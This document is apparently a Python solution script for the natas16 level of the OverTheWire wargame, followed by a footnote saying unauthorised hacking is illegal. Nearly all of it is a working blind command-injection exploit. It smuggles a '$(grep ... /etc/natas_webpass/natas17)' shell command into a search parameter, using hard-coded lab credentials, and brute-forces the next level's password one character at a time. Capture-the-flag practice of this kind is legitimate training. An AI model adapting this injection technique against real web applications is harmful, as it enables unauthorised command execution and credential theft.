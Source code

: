 ```python
def get_page_text(query_dict):
    query_dict["debug"] = "1"
    r = requests.get(
        "http://natas16.natas.labs.overthewire.org",
        auth=("natas16", "WaIHEacj63wnNIBROHeqi3p9t0m5nhmh"),
        params=query_dict)
    return r.text


def does_user_exist(body):
    html = BeautifulSoup(body, "html.parser")
    text = html.body.div.pre.get_text().strip()
    logger.debug(text)
    return text != "Aprils"


def get_next_char(index, possible_chars):
    next_index = index + 1
    return next_index, possible_chars[index]


def get_password():
    # All previous passwords contined only numbers and lower/upper case
    # letters. Let's assume that the same is true for this password.
    possible_chars = "".join([
        string.lowercase,
        string.uppercase,
        "".join(map(str, range(10)))
    ])

    password = ""
    index = 0
    while True:
        try:
            index, char = get_next_char(index, possible_chars)
        except IndexError:
            # None of the chars matched, assume that the password has been
            # guessed.
            return password
        password_guess = "".join([password, char])
        text = get_page_text({
            "needle": "$(grep -E ^{0}.* /etc/natas_webpass/natas17)aprils".format(
                password_guess),
            "debug": "true"
        })
        if does_user_exist(text):
            password = "".join([password, char])
            logging.info("password: %s", password)
            index = 0


def main():
    print get_password()


if __name__ == "__main__":
    main()
```


[^1]: Hacking into systems without explicit permission is illegal.